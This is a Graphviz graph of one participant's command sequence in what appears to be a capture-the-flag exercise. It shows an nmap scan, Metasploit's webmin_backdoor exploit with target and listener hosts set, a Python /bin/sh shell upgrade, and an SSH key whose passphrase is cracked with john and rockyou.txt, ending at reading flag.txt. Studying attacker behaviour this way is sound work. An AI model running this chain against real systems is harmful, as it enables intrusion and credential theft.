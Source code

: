 // creating graph for user: 44
digraph {
	node [shape=box]
	0 [label="nmap --help A0 A1 "]
	1 [label="nmap -v 172.18.1.5 M0 "]
	2 [label="msfconsole M2 "]
	3 [label="search webmin M3 "]
	4 [label="use exploit/unix/webapp/webmin_backdoor  M8 "]
	5 [label="show options M5 "]
	6 [label="set rhosts 172.18.1.5 A6 "]
	7 [label="run M8 "]
	8 [label="set lhost 10.1.135.83 A6 "]
	9 [label="run M8 "]
	10 [label="cd /root/.ssh A16 "]
	11 [label="cd .ssh A16 "]
	12 [label="ls A10 "]
	13 [label="ls -la A10 "]
	14 [label="ssh-keygen -t rsa A16 "]
	15 [label="show options M5 "]
	16 [label="run M8 "]
	17 [label="python -c 'import subprocess; p=subprocess.call([/bin/sh A13 "]
	21 [label="ls -la A10 "]
	22 [label="ls A10 "]
	23 [label="ls -la A10 "]
	24 [label="ls -a M10 "]
	25 [label="ls -l A10 "]
	26 [label="ssh eve@10.1.17.4 --help M16 "]
	27 [label="ssh -i eve.key eve@10.1.17.4 M16 "]
	29 [label="chmod key.eve 0644 A15 "]
	30 [label="chmod 0644 key.eve A15 "]
	31 [label="ls A10 "]
	32 [label="chmod 0644 eve.key A15 "]
	33 [label="ssh -i eve.key eve@10.1.17.4 M16 "]
	34 [label="sudo ssh -i eve.key eve@10.1.17.4 M16 "]
	35 [label="chmod 0700 eve.key A15 "]
	36 [label="ssh -i eve.key eve@10.1.17.4 M16 "]
	37 [label="ssh2john eve.key > eve.hash A14 A16 "]
	38 [label="locate ssh2john.py A1 A9 A10 A11 A12 A14 A16 A17 "]
	39 [label="python ssh2john.py eve.key > eve.hash M13 "]
	40 [label="ls A10 "]
	41 [label="cat eve.hash A1 A9 A11 A12 A17 "]
	42 [label="john eve.hash -wordlist=rockyou.txt A14 "]
	43 [label="locate rockyou.txt A1 A9 A10 A11 A12 A17 "]
	44 [label="john eve.hash -wordlist=/usr/share/wordlists/rockyou.txt A14 "]
	45 [label="ssh -i eve.key eve@10.1.17.4 M16 "]
	46 [label="ls A10 "]
	47 [label="ls -la A10 "]
	49 [label="ls -la A10 "]
	50 [label="cat flag.txt M17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	rankdir=LR
}
